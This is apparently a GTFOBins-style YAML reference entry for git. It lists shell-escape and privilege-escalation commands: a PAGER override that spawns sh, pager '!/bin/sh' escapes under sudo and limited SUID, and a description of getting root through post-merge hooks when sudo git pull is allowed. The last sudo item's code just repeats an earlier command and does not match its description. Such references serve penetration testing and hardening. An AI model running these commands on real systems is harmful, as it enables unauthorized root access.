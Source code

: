 ```yaml
---
functions:
  shell:
    - code: PAGER='sh -c "exec sh 0<&1"' git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        git help config
        !/bin/sh
  sudo:
    - code: PAGER='sh -c "exec sh 0<&1"' sudo -E git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo git -p help config
        !/bin/sh
    - description: The help system can also be reached from any `git` command, e.g., `git branch`. This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo git branch --help config
        !/bin/sh
    - description: This can be useful when only git pull is allowed sudo access. Any commands in the post-merge git hook of the repository which is pulled will be executed as root. This enables several ways to pop a root shell, including but not limited to: Adding an SSH key, starting a reverse shell and modifying /etc/passwd to create a new account with root access
      code: |
        sudo git branch --help config
        !/bin/sh
  limited-suid:
    - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
---
```

